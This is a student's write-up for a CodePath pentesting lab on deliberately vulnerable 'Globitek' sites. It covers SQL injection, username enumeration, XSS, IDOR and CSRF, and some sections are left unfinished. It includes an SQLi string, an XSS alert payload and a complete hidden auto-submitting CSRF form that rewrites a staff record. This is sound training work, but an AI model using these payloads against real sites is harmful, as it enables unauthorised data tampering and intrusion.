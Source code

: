 # Project 9 - Pentesting Live Targets

Time spent: **X** hours spent in total

> Objective: Identify vulnerabilities in three different versions of the Globitek website: blue, green, and red.

The six possible exploits are:

* Username Enumeration
* Insecure Direct Object Reference (IDOR)
* SQL Injection (SQLi)
* Cross-Site Scripting (XSS)
* Cross-Site Request Forgery (CSRF)
* Session Hijacking/Fixation

Each color is vulnerable to only 2 of the 6 possible exploits. First discover which color has the specific vulnerability, then write a short description of how to exploit it, and finally demonstrate it using screenshots compiled into a GIF.

## Blue

### Vulnerability #1: SQL Injection

Description: SQl Injection or SQLi is a type of cybersecurity attack that targets databases using specifically crafted SQL statements. The goal is to trick the system(s) into doing unexpected and undesired things. SQL Injection occurs when an application fails to sanitize untrusted data.

In CodePath's Unit 9 Concept Review section, they provided the SQL statement, _' OR 1=1 --'_. This may or may not have been a hint, but just substituting it for the value of _id_ in the blue site's "Find a Saleperson" tab does not work. I took my chances and modified _' OR 1=1 --'_ into _' OR 1=1 '_ and tried substituting it for the value of _id_ and it returns a "Database query failed."

<img src="sql_injection.gif">

### Vulnerability #2: __________________

Description:

<img src="blue-vuln2.gif">

## Green

### Vulnerability #1: Username Enumeration

Description:
Username Enumeration is the process of developing a list of all valid usernames on a server or web application and it becomes possible if the server or web application provides a clue as to whether or not the username exists.

When using CodePath's supplied username, "jmonroe99", which already exists, the green site displayed a login error in bold.
But when using a madeup username, "kevin123", which under the assumption that there is no username like this in the server, the green site displayed an unbolded login error.
Although both errors returns "Log in was unsuccessful.", the only visual difference was one was bold and the other was not.

Using the _inspect_ element, I analyzed both the bolded and unbolded login errors and it turns out there are two _span_ tag classes -- "failure", which results in the bolded login error and "failed", which results in an unbolded login error.

<img src="username_enumeration.gif">

### Vulnerability #2: Cross-Site Scripting

Description: Cross-Site Scripting (aka _XSS_) is when code puts user-supplied data in the response without sanitizing the data first.

CodePath gave the XSS script, _<script>alert('Mallory found the XSS!');</script>_ as an hint. The "Contact" page is a common ground for inputting some XSS scripts as users are free to post comments.

<img src="cross_site_scripting.gif">


## Red

### Vulnerability #1: Insecure Direct Object Reference

Description: Insecure Direct Object Reference is when code accesses a restricted resource based on user input but fails to verify user's authorization to access that resource.

Through changing the _id_ parameter on the red site's "Find a Saleperson" tab, it is explicitly shown that entering the ids from 1-9 shows the salespeople in the database that are unrestricted/publicized, but when entering ids of 10 and 11, it is clearly written in parenthesis that their information is not meant to be shown.

<img src="insecure_direct_object_reference.gif">

### Vulnerability #2: Cross-Site Request Forgery

Description: Cross-Site Request Forgery is an attack in which a user is tricked into performing actions on another site by inadvertently clicking on a link or submitting a form. It is not a genuine user request.



<img src="cross_site_request_forgery.gif">
Script Used:
```html
<!DOCTYPE html>
<html>

<head>
  <title>FAKE Form</title>
  <meta http-equiv="content-type" content="text/html; charset=utf-8" />
</head>

<body onload="document.getElementById('f').submit();">
  <form action="https://35.184.88.145/red/public/staff/salespeople/edit.php?id=7" method="post" id="f" style="display: none;" target="hidden_results">
    <input type="text" name="first_name" value="GETHACKEDBOIII" />
    <input type="text" name="last_name" value="KARMA" />
    <input type="text" name="phone" value="911" />
    <input type="text" name="email" value="noemailforyou@gmail.com" />
  </form>
  <iframe name="hidden_results" style="display: none;"></iframe>
</body>

</html>
```


## Notes

Describe any challenges encountered while doing the work

